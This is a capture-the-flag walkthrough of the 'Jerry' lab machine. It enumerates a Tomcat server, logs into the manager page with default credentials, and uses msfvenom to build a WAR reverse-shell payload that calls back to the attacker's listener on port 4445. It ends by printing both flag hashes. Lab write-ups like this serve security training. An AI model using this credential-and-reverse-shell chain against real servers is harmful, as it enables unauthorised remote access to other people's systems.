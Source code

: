 # Jerry

## IP	
> 10.10.10.95

## nmap scan

```nmap -T4 -p- -A 10.10.10.95 -Pn```

```a
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Open Ports
       
>8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

## HTTP
We now that the server is running "Apache Tomcat/7.0.88"

I performed a gobuster in the website such as 

```gobuster dir -u http://10.10.10.95:8080/ -w /usr/share/wordlists/dirb/common.txt```

and the results where 

>/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]     

If we go to http://10.10.10.95:8080/manager it will prompt for a username and password so we can try the default 

> username: tomcat
> password: s3cret

They work! we now have access to the tomcat manager page but it did not work for http://10.10.10.95:8080/host-manager

We can also use the wordlists that are online for tomcat or use a metasploit attack

Now that we are inside manager we see that we can add a ".war" file so lets create a payload with msfvenom 

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.197 LPORT=4445 -f war > ex.war```

Like this we will create ex.war

Now we upload the file and start a listener in our machine

```nc -nvlp 4445```

We access http://10.10.10.95:8080/ex and we get a shell!

Now we are inside the machine

### Getting the Flags
```
cd ../Users/Administrator/Desktop/flags
type "2 for the price of 1.txt"
```

>user.txt
7004dbcef0f854e0fb401875f26ebd00

>root.txt
04a8b36e1545a455393d067e772fe90e

We can also get a meterpreter shell following [[Create a meterpreter shell when only have normal shell]] 

